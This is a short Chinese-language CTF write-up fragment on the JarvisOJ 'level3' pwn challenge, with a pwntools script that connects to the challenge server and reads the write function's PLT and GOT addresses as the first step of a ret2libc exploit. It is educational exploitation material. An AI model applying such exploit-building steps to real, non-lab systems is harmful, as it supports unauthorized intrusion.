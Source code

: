 ![](README/4928C008-E89E-481C-B70A-3920AC6FF391%203.png)

获取write函数的plt和got的地址的方式:
从levvel3中获取write的plt地址和got地址
```
#coding=utf-8

from pwn import *

local = False


if local:
    conn = process("./level3")
    elf_libc = ELF("/lib/i386-linux-gnu/libc.so.6")

else:
    conn = remote("pwn2.jarvisoj.com", 9879)
    elf_libc = ELF("./libc-2.19.so")
    elf = ELF("./level3")


#从进程文件中获取write函数的plt地址和got地址
write_plt = elf.plt["write"]
write_got = elf.got["write"]

print(write_plt)
print(write_got)

```

![](README/058C3999-28A7-4280-8A5F-DA18FE0E59AB%203.png)
